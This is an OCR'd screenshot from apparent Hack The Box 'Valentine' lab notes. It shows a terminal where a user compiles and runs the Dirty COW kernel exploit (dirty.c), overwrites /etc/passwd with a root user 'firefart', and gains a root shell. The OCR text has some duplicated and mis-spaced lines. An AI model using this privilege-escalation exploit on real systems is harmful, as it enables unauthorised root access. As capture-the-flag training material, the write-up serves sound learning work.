 ![](Maszyny/Linux/Valentine/Pasted%20image%2020210818021809.png)

hypeavalentine:/tmp/pp$ vi dirty.c
hypeavalentine:/tmp/pp$ rm dirty
hypeavalentine:/tmp/pp$ gcc -pthread dirty.c-o dirty -lcrypt
hypeavalentine:/tmp/pp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fi6b59A.C7BDQ:0:0:pwned:/root:/bin/bash
mmap: 7f915af3f000
id
su firefart
test
id
madvise 0
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.
DON'T FORGET TO RESTORE! $ mv /tmp/passwd. bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.
DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
hypeavalentine:/tmp/pp$ id
uid=1000( hype) gid=1000( hype) groups=1000( hype), 24(cdrom), 30(dip), 46(plugdev), 124( sambashare)
hypeavalentine:/tmp/pp$ su firefart
Password:
firefartavalentine:/tmp/pp# id
uid=0(firefart) gid=0(root) groups=0(root)
firefartavalentine:/tmp/pp#
HTB | 18h 24m 1 sudo 2 ssh

